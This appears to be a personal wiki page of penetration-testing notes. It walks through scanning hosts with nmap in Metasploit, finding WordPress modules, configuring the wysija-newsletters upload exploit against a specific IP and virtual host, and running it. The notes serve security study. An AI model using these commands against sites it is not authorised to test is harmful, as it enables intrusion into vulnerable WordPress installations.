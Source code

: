 # Metasploit

The <dfn>Metasploit</dfn> Project is a computer security project that provides information about security vulnerabilities and aids in penetration testing and IDS signature development.

## WordPress

### Identify a Remote Host

```bash
msf > db_nmap -v -sV 192.168.111.xxx
```

![][image-1]

#### Scan an Entire Network

-   This will save the results to the Metasploit database

```bash
msf > nmap -v -sV 192.168.111.0/24 -oA subnet_1
```

-   `hosts` will list all the hosts found by `nmap`.
-   `hosts -R` will add them to the list of hosts to exploit.

### Searching for a WordPress Vulnerability

```bash
msf > search name:wordpress
```

![][image-2]

### Use an Exploit

-   This will select an exploit to use:

```bash
msf > use exploit/unix/webapp/wp_wysija_newsletters_upload
```

-   This will show you the attacks that the exploit will take advantage of:

```bash
msf exploit(wp_wysija_newsletters_upload) > show payloads
```

![][image-3]

-   This will show what software and version will be targeted:

```bash
msf exploit(wp_wysija_newsletters_upload) > show targets
```

```text
Exploit targets:

    Id  Name
    --  ----
    0   wysija-newsletter < 2.6.8
```

### Next configure the Exploit

```bash
msf exploit(wp_wysija_newsletters_upload) > show options
```

```text
Module options (exploit/unix/webapp/wp_wysija_newsletter_upload):

    Name        Current Settings    Required    Description
    ----        ----------------    --------    -----------
    Proxies                         no          A proxy chain of format type:host:port[,type:host:port][...]
    RHOST                       no          The target address
    RPORT       80                  yes         The target port
    SSL         false               no          Negotiate SSL/TLS for outgoing connections
    TARGETURI   /                   no          The base path to the wordpress application
    VHOST                           no          HTTP server virtual host

Exploit target:

    Id  Name
    --  ----
    0   wysija-newsletters < 2.6.8
```

-   Here is where we set all the options:

```bash
msf exploit(wp_wysija_newsletters_upload) > set RHOST 159.203.19.77
msf exploit(wp_wysija_newsletters_upload) > set RPORT 443
msf exploit(wp_wysija_newsletters_upload) > set SSL true
msf exploit(wp_wysija_newsletters_upload) > set VHOST myles.life
```

### Run the Exploit

```bash
msf exploit(wp_wysija_newsletters_upload) > exploit
```

[image-1]: https://myles.wiki/assets/pentesting/metasploit/575CF62D4C7E18CFD40566EA08E7D588.png

[image-2]: https://myles.wiki/assets/pentesting/metasploit/A9D412A6F8C5F3485B429E2EA41D4CB9.png

[image-3]: https://myles.wiki/assets/pentesting/metasploit/67A7D5964C96C63BA11EEA707CB4A604.png
